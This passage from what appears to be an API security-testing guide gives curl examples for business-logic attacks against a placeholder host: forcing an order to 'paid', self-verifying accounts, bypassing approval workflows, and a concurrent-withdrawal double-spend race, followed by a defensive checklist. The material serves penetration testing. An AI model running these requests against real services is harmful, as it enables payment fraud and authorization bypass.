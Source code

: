 ```bash

# Test bypass: Direct status manipulation
curl -X PUT https://api.example.com/orders/$ORDER_ID \
  -d '{"status": "paid"}'
```

#### Account Verification Bypass
```bash
# Test account verification bypass
curl -X POST https://api.example.com/users/create \
  -d '{
    "email": "test@example.com",
    "password": "password123",
    "verified": true,
    "verification_token": "bypassed"
  }'

# Test premium feature access without subscription
curl -X POST https://api.example.com/premium/feature \
  -H "Authorization: Bearer unverified_user_token" \
  -d '{"action": "premium_action"}'

# Test approval workflow bypass
curl -X POST https://api.example.com/documents/publish \
  -d '{
    "document_id": 123,
    "status": "approved",
    "approved_by": "auto-approved"
  }'
```

### Workflow Testing Checklist
- [ ] **Sequential Steps**: Each step validates previous completion
- [ ] **State Validation**: Current state verified before transitions
- [ ] **Authorization Checks**: User permissions validated at each step
- [ ] **Data Consistency**: Related data remains consistent across steps
- [ ] **Rollback Mechanisms**: Failed steps properly roll back changes
- [ ] **Timeout Handling**: Incomplete workflows have timeout logic
- [ ] **Audit Trails**: All workflow steps logged for audit
- [ ] **Error Handling**: Proper error handling for failed steps

---

## 🏃‍♂️ Race Condition Testing

### Concurrent Operation Testing

#### Double Spending Attack
```bash
# Test concurrent withdrawal attempts
USER_ID="user123"
AMOUNT="100"

# Launch multiple concurrent requests
for i in {1..10}; do
  curl -X POST https://api.example.com/wallet/withdraw \
    -H "Authorization: Bearer $USER_TOKEN" \
    -d "{\"user_id\": \"$USER_ID\", \"amount\": $AMOUNT}" &
done
wait

# Check final balance
curl https://api.example.com/wallet/balance/$USER_ID
```